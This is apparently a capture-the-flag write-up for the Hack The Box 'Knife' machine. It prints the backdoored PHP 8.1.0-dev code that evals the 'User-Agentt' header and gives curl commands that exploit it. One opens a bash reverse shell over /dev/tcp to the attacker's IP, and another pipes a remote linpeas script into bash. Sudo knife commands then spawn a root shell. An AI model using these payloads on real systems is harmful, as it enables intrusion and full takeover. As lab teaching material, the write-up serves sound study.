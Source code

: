 ```yaml
---
title: Knife Machine HTB
excerpt: Knife is an easy difficulty Linux machine that features an application which
  is running on a backdoored version of PHP. This vulnerability is leveraged to obtain
  the foothold on the server. A sudo misconfiguration is then exploited to gain a
  root shell.
coverImage: "/assets/blog/knife/knife.jpeg"
date: '2021-09-12'
author:
  name: W0lf15
  picture: "/assets/blog/authors/w0lf15.png"
ogImage:
  url: "/assets/blog/knife/knife.jpeg"
difficulty: easy
active: false

---
```

## Skills Required

- Enumeration
- Basic Knowledge of Linux
- OWASP Top 10

## Skills Learned

- Web Exploitation
- Knife Sudo Exploitation

## Enumeration

```shell
ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.242 | grep ^[0-9] | cut -d '/' -f 1 | tr
'\n' ',' | sed s/,$//)
nmap -p$ports -sV -sC 10.10.10.242
```

Nmap scan reveals that the target server has two ports open: 22 and 80.

Apache is hosting an Emergent Medical Idea application. There's nothing interesting in this application.

### FFUF

Let's enumerate files and folders using `ffuf` utility.

Nothing interesting from the results. We send a cURL request to `index.php` page and observe the
response headers.

X-Powered-By header reveals that the application is using PHP/8.1.0-dev version. Searching
vulnerabilities related to this version reveals that it has a known RCE <a href="https://www.exploit-db.com/exploits/49933">exploit</a>.

```php
{
 zval zoh;
 php_output_handler *h;
 zval *enc;
 if ((Z_TYPE(PG(http_globals)[TRACK_VARS_SERVER]) == IS_ARRAY ||
zend_is_auto_global_str(ZEND_STRL("_SERVER"))) &&
 (enc = zend_hash_str_find(Z_ARRVAL(PG(http_globals)[TRACK_VARS_SERVER]),
"HTTP_USER_AGENTT", sizeof("HTTP_USER_AGENTT") - 1))) {
 convert_to_string(enc);
 if (strstr(Z_STRVAL_P(enc), "zerodium")) {
 zend_try {
 zend_eval_string(Z_STRVAL_P(enc)+8, NULL, "REMOVETHIS: sold to zerodium, mid
2017");
 } zend_end_try();
 }
 }
 switch (ZLIBG(output_compression)) {
 case 0:
```

The code checks for the first occurance of zerodium string in User-Agentt request header. If found, it
then executes the code after that string.

```php
zend_eval_string(Z_STRVAL_P(enc)+8, NULL, "REMOVETHIS: sold to zerodium, mid 2017");
```

```shell
curl http://10.10.10.242/index.php -H 'User-Agentt: zerodiumsystem("curl
10.10.14.177");'
```

After successfully receive the request we fire up a listener on port 1234 and send below request to obtain
the reverse shell.

```shell
curl http://10.10.10.242/index.php -H "User-Agentt: zerodiumsystem(\"bash -c 'bash -i
&>/dev/tcp/10.10.14.177/1234 0>&1 '\");"
```

Let's setup a listener on port 80 and verify this by sending a cURL request to our server.

This is indeed successful and a shell as james is received.

## Privilege Escalation

Having foothold on the server, it is possible to enumerate the different ways to escalate privileges. We
enumerate the server using scripts such as <a href="https://github.com/rebootuser/LinEnum">LinEnum.sh</a> or <a href="https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS">linPEAS.sh.</a> We download the script and copy it to the apache web root path. Next, we use curl to transfer and execute the script.

```shell
curl 10.10.14.177/linpeas.sh|bash
```

Output shows that james is allowed to run knife as root. Knife tool provides an interface to manage Chef
automation server nodes, cookbooks, recipes and etc. Knife usage can be read from manpage. Some
examples shows that, it is possible to edit knife data bags using a text editor. We can try that.

```shell
sudo knife data bag create 1 2 -e vi
```

This opens up the vim editor. We type below in the editor to get a shell as root.

```shell
:!/bin/sh
```

This can also be achieved using knife exec sub-command. We can upgrade the shell to a fully interactive.

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
ctrl+z
stty raw -echo
fg
reset
xterm
```

Now it is possible to execute keyboard shortcuts in the shell session. Knife also provides an option exec to
execute ruby scripts. We issue the following command.

```shell
sudo knife exec
```

This opens up an interactive shell to execute the code. We type the code below and press CTRL D to run it.

```shell
exec "/bin/bash"
```

This is successful and a shell as root is obtained. Alternatively the following ways can also be used to obtain
a root shell.

```bash
sudo knife exec --exec "exec '/bin/sh -i'"
```

```bash
echo -n 'exec "/bin/bash -i"' > config.rb
sudo knife user list -c config.rb
```

```

```